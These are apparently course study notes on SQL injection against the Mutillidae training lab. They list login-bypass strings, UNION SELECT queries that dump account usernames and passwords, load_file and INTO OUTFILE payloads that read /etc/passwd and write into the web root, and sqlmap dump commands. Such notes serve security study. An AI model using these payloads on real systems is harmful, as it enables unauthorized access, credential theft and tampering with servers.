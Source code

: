 #### Login with admin account
**Option 1**
username: admin
password: \<whatever\>' or \<code-to-execute\> #

**Option 2**
username: admin' #
password: \<whatever\>

### Discovery SQL-I in GET
Using `order by`.
Hashtag (#) encoded is %23
Use username: `\<whatever\>' order by 100000 #`

Should look like this
http://10.0.2.5/.../?username='gmemin' order by 100000 #&password=...

Since there's probably not 100000 columns, there should be an error.

#### Reading Database Information
Using `order by X`, and vary X to find out how many columns there are in the table (binary search).

Using `union select`.
`union select 1,2,3...,X`
**Showing DB info**
`union select 1,database(),user(),version(),5`

#### Discovering Database Tables
`union select 1,table_name,null...,null,X from information_schema.tables`
optional: `where table_schema = '<database-name>'`

#### Extracting Sensitive Data from Database
**First, get columns**
`union select 1,column_name,null...,null,X from information_schema.columns where table_schema = '<table-name>'`

**Select usernames & passwords**
`union select 1,username,password,is_admin...,null,X from accounts`

### Reading & Writing Files on the Server using SQL-I
**Reading**
`union select null,load_file('/etc/passwd'),null,...,null`

**Writing**
`union select null,'example example',null,...,null into outfile '/var/www/mutillidae/example.txt'`
**If permission error** instead write into /tmp/. Not usefull if can't write to webserver file.

### Exploitation using SQLmap
SQLmap checks for SQL Injections instead of doing it manually.
`sqlmap -u "<url>"`
`sqlmap help`
**Getting databases**
`sqlmap -u "<url>" --dbs`
`sqlmap -u "<url>" --current-user`
`sqlmap -u "<url>" --current-db`
**Tables from a specific Database**
`sqlmap -u "<url>" --tables -D <db-name>`
**Columns of specific table from Database**
`sqlmap -u "<url>" --columns -T <table-name> -D <db-name>`
**Get data from table**
`sqlmap -u "<url>" -T <table-name> -D <db-name> --dump`
